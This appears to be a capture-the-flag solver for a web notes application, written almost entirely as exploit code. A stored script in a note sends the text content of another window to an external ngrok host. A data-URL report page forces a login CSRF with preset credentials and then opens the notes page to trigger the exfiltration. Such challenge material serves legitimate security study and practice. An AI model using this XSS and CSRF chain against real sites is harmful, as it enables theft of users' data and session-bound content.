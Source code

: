 ## Solver
On Notes </b>
<script>
  if (window.location.search.includes('exp'))
    window.location = 'https://e2fb-223-255-230-45.ap.ngrok.io?' + window.open('', 'pwn').document.body.textContent
</script>

On Report </b>
data:text/html,
<form action="http://localhost:8080/login" method=POST id=exp target=_blank>
  <input type="text" name="username" value="banua"><input type="text" name="password" value="banua">
</form>
<script>
  window.open('http://localhost:8080/notes', 'exp');
  setTimeout(`exp.submit()`, 1000);
  setTimeout(`window.location='http://localhost:8080/notes?exp'`, 1500);
</script>
